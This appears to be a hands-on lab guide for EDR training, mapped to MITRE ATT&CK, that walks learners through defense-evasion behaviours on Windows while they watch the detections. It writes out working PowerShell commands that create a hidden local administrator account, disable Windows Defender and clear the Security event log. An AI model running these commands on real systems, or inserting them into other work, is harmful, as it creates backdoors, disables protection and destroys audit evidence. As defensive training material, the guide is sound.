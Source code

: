```yaml
---
title: ATT&CK - Defense Evasion Phase
description: Introduce post-compromise attack behaviors and EDR defenses
author: Chris Gerritz, Datto
created: 04/07/2025
achievements:
duration: 10
range:
- Windows
applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
external:
- attack.mitre.org
- rightofboom.infocyte.com
- 
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Lab 4 is a light touch on some Defense Evasion techniques (such as disabling antivirus or defensive products). These techniques are often layered on the other techniques and phases to help hide that activity. In any case, when it comes to EDR and continuous monitoring, oftentimes we can use the presence of these evasion techniques as detection or confirmation that the user performing suspicious behaviors is indeed a threat.

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Defense Evasion phase activities an attacker might utilize
2. Demonstrate Defense Evasion skills to disable antivirus and allow us to bring down additional malware utilities without being detected
3. Understand how we can use Defense Evasion activities to identify or confirm malicious intent

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Run the following:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
	```

## Instructions
For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 

> *While most defensive evasion will be used alongside other techniques to hide them, an explicit defense evasion phase usually will happen where the attacker will disable security tools and logging.*

### 1. Creating a new user via net.exe
*Attackers will often create users on the machine and attempt to escalate the privledges to manipulate the machine. A common technique is to use the net.exe process to silently create new users as well as escalate privleges to local administrator rights.*

[ATT&CK T1136.001-Create Account-Local Account](https://attack.mitre.org/techniques/T1136/001/)
- Copy and paste this command into the terminal:
```Powershell
Write-Host -ForegroundColor Cyan "Initiating Persistence...creating local account"
Write-Host "Creating user 'notahacker' with admin rights..."
$cmd = @"
net user notahacker Password123! /add
net localgroup administrators notahacker /add
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd 
Write-Host -ForegroundColor Green "'notahacker' added to Administrators group successfully."

*Verify user was created.*

```Powershell
net users
```

*If command ran correctly should return*

```
User accounts for \\[USER-WORKSTATION]
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
notahacker               [youraccount]                 WDAGUtilityAccount
```

### 2.Hiding the attacker from userlist - Defense Evasion
*Attackers will also make attempts to conceal the account, the command below, will alter the registry keys to remove the user from the userlist screen on a login screen*

- [ATT&CK T1564.002-Hide user from userlist](https://attack.mitre.org/techniques/T1564/002/)
- Copy and paste this command into the terminal:
```Powershell
$cmd = @"
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /f /d 0 /v "notahacker"
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
Write-Host -ForegroundColor Green "'notahacker' removed from userlist."
```

### 3.Use Powershell to perform a **Disable Security Tools** technique
*The method we'll demonstrate today is to disable Windows Defender, often an attacker will use a script to detect and disable whatever AV is on the system. This action requires administrator privileges. This command may not work directly if tamper protection is enabled but there are methods an attacker can use to bypass tamper protection as well.*

- [ATT&CK T1089 - Defense Evasion - Disabling Security Tools](https://attack.mitre.org/techniques/T1089)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Initiating Defense Evasion - T1089 - Disabling Security Tools"
Write-Host "Disabling Defender..."
$cmd = @"
Set-MpPreference -DisableRealtimeMonitoring $true
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
```

### 4. Disabling Security Tools - Service Control Manager
> *If the above method does not work, attackers can also disable the antivirus service from the service control manager using sc.exe*

Use the Service Control Manager (sc.exe) to perform a **Disable Security Tools** technique
- [ATT&CK T1089 - Defense Evasion - Disabling Security Tools](https://attack.mitre.org/techniques/T1089)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Initiating Defense Evasion - T1089 - Disabling Security Tools"
Write-Host "Disabling Defender..."
$cmd = @"
sc.exe config WinDefend start= disabled
sc.exe stop WinDefend
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
Write-Host -ForegroundColor Red "Windows Defender Disabled"
```

### 5. Removing Evidence of Activity - wevtutil.exe clear logs
*After completing certain tasks, or as part of a script, users wil conceal their tracks in an attempt to hide their activity*

- [ATT&CK T1070.001 - Defense Evasion - Windows Event Logs Cleared](https://attack.mitre.org/techniques/T1070/001/)
- Copy and paste this command into the terminal:
```PowerShell
Write-Host -ForegroundColor Cyan "Clearing Security Logs"
$cmd = @"
wevtutil.exe cl Security
Start-Sleep -Milliseconds $n
"@
powershell.exe -nop -command $cmd
Write-Host -ForegroundColor Cyan "Logs Cleared"
```

